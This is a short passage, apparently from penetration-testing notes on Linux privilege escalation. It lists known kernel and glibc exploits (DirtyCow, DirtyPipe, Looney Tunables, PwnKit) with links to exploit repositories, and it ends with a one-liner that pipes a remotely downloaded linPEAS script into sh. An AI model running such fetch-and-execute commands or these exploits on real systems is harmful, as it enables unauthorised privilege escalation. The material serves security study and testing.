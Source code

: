 There are many exploits for many Linux kernel versions out there. We can check the OS Version with cat /etc/os-release. Famous examples of Linux kernel exploits are [DirtyCow](https://dirtycow.ninja/) or [DirtyPipe](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits). There is also a recent exploit on the GNU C Library [Looney Tunables](https://github.com/hadrian3689/looney-tunables-CVE-2023-4911) that can work on newer systems as a privilege escalation. An interesting and recent case is the Pkexec Local Privilege Escalation exploit that can be run with [PwnKit](https://github.com/ly4k/PwnKit). Many of this exploits can be found directly with `searchsploit`.

### linPEAS oneliner

```shell
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
